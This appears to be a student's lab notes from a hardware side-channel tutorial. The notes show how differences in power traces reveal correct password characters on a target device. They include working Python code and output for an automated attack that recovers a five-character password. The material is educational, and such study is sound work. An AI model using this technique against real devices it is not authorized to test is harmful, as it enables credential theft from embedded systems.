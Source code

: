 there will be a power spike (as normal) when a character is incorrect. The power will be low for a bit when the character is incorrect.

```python
trace_h = cap_pass_trace("h\n")
trace_l = cap_pass_trace("l\n")

%matplotlib notebook
import matplotlib.pylab as plt

plt.figure()
plt.plot(trace_h, 'r')
plt.plot(trace_l, 'b')
plt.show()
```

![[Pasted image 20230719140230.png]]
red line: h - correct character
blue line: l - incorrect character

### automating our attack

- take a character we know is wrong to use as a reference trace, for example, there is not going to be a null byte in our passcode.
	- in this instance, we know the trace for an invalid character looks the same as a trace for a valid but incorrect one.
	![[Screenshot 2023-07-19 at 2.10.20 PM.png]]
- take the difference between traces for all letters and the reference. The correct once should stand out now.

```python
%matplotlib notebook
import matplotlib.pylab as plt
samp_trace = cap_pass_trace("\x00\n")
chars = "abcdefghijklmnopqrstuvwxyz0123456789"
plt.figure()

for letter in chars:
    trace = cap_pass_trace(letter + "\n")
    plt.plot(trace - samp_trace)
    diff = np.sum(np.abs(trace - samp_trace))
    
    print(f"{letter} diff = {diff}")
    
plt.show()
```

![[Pasted image 20230719141251.png]]
we can see that the gray trace is probably the correct character.
The only issue is we don't know what character that line corresponds to

### Identifying the specific character
- to determine the specific character, we can take the absolute value of all of the differences between the referance and the trace, then sum them together. 
- The values for incorrect traces should be very small, but the values for correct traces should be large.
- you could take the mean, but every trace has the name number of samples, so it will just scale the data differently (very small!)

code
```python
%matplotlib notebook
import matplotlib.pylab as plt
import numpy as np


test_trace = cap_pass_trace("\x00\n")
chars = "abcdefghijklmnopqrstuvwxyz0123456789"

for letter in chars:
    trace = cap_pass_trace(letter + "\n")
    diff = np.sum(np.abs(trace - test_trace))
    print(f"{letter} : {diff}")
```

output
```
a : 6.8935546875
b : 8.873046875
c : 8.7314453125
d : 9.224609375
e : 12.4951171875
f : 12.740234375
g : 8.333984375
h : 126.5322265625 #We can see that h has a much higher trace than the others
i : 8.2080078125
j : 9.01953125
k : 8.2255859375
l : 8.5595703125
m : 8.46484375
n : 9.0146484375
o : 8.9619140625
p : 8.77734375
q : 8.4970703125
r : 8.9150390625
s : 8.421875
t : 9.4189453125
u : 9.01953125
v : 9.0732421875
w : 8.74609375
x : 8.625
y : 8.212890625
z : 8.921875
0 : 8.951171875
1 : 8.875
2 : 8.333984375
3 : 8.6494140625
4 : 9.4013671875
5 : 12.990234375
6 : 8.103515625
7 : 9.490234375
8 : 12.6640625
9 : 12.8447265625
```

now we can set a threshold value for the diff value correct letter. Anything above 50 should be good, but I found the difference values of the correct characters are usually above 100 so you could go higher.

```python
%matplotlib notebook
import matplotlib.pylab as plt
import numpy as np

threshold = 50.0
samp_trace = cap_pass_trace("\x00\n")
chars = "abcdefghijklmnopqrstuvwxyz0123456789"
corr_char = ""

for letter in chars:
    trace = cap_pass_trace(letter + "\n")
    diff = np.sum(np.abs(trace - samp_trace))
    if diff > threshold:
        corr_char = letter
        break
print(corr_char)
```

### running a full attack
```python
import numpy as np
threshold = 50.0
chars = "abcdefghijklmnopqrstuvwxyz0123456789"
corr_char = ""
for i in range(0, 5):
    samp_trace = cap_pass_trace(corr_char + "\x00\n")
    for letter in chars:
        trace = cap_pass_trace(corr_char + letter + "\n")
        diff = np.sum(np.abs(trace - samp_trace))
        
        if diff > threshold:
            corr_char+=letter
            print(corr_char)
            break
```
```
h
h0
h0p
h0px
h0px3
```
- checks the values for each of the 5 characters and print out the password

